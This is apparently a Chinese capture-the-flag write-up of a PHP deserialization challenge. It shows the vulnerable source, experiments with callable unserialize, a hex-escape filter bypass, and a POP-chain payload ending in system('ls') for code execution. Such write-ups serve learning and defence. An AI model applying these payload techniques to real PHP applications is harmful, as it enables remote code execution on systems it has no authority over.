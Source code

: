# ciscn_easy_ser

index.php:

```
<?php
error_reporting(0);
highlight_file(__FILE__);
class Test{
    public $public_key;
    public $private_key;
    function __wakeup(){
        if($public_key !== $private_key)
        {
            die("You can't");
        }
    }
    function getHint()
    {
        echo file_get_contents('./demo.php');
    }
 
}

$a = $_GET['a'];
if(strpos($a,'key') !== false){
    die("No!!!");
}
else
{
    unserialize($a)();
}
?>
```

（首先部署到我们的服务器上）

一个反序列化，比较奇怪的是unserialize($a)()后面的这个括号

比赛中我想的是将类作为函数调用，会触发`__inoke()`, 而`__wakeup()`用cve去过，然后找个原生类做跳板啥的(当然是没找到)。

我们先做一点小实验：

```
<?php
class Test
{
    public $a;
    public $b;
    function __wakeup()
    {
        // TODO: Implement __wakeup() method.
        echo "__wakeup()\n";
    }
    function __invoke()
    {
        // TODO: Implement __invoke() method.
        echo "__invoke()\n";
    }
    function func()
    {
        echo "func()\n";
    }
}
$a = "Test::func";
$f = serialize($a);
unserialize($f)();//静态调用

$b = new Test();
$c = [$b,'func'];echo $c();
$d = serialize($c);
unserialize($d)();


输出：
func()//来自静态方法调用
func()//来自echo$c()
__wakeup()//来自unserialize()
func()//来自unserialize()
ps:静态方法调用虽然会报错但是仍然会有输出
```

我们发现：

- 静态调用并没有触发__wakeup
- [$b,'func'] ()的形式能够直接调用b对象中的方法func
- [$b,'func'] ()经过反序列化后能够触发__wakeup

因此payload:

```
1.
$a = "Test::getHint";
echo serialize($a);

2.
$test = new Test();
$test->public_key = 1;
$test->private_key = 2;
$a = [$test, 'getHint'];
echo serialize($a);
然后wakeup用string，key用16进制过k::\6b
```

然后进入返回demo.php

control+u查看源码

```php
<?php
class Fake{
	public $firm;
	public $test;
	public function __set($firm,$test){//设置一个类成员变量时调用
	$test = "No,You can't";
	$firm = unserialize($firm);
	call_user_func($firm,$test);
  }
}
class Temp{
	public $pri;
	public $fin=1;
	public function __destruct()
	{
		$a=$this->action;
       $this->pri->$a = $this->fin;
	}

}

class OwO{
    public $fc;
    public $args;	
	function run()
	{

		return ($this->fc)($this->args);

	}
}
$d = $_GET['poc'];
unserialize($d);
?
```

这个就比较正常的pop链了入口__destruction()

```PHP
$a = new Temp();
$b = new OwO();
$c = new Fake();
$b->fc = "system";
$b->args = "ls";
$arr = [$b,'run'];
$d = serialize($arr);
$a->pri = $c;
$a->action = $d;
echo serialize($a);

//具体一点就是：Temp::__destruct->Fake::__set->call_user_func->OwO::run->system('ls')
```

![2](ciscn_easy_ser.assets/2.png)

最后可以看到代码执行。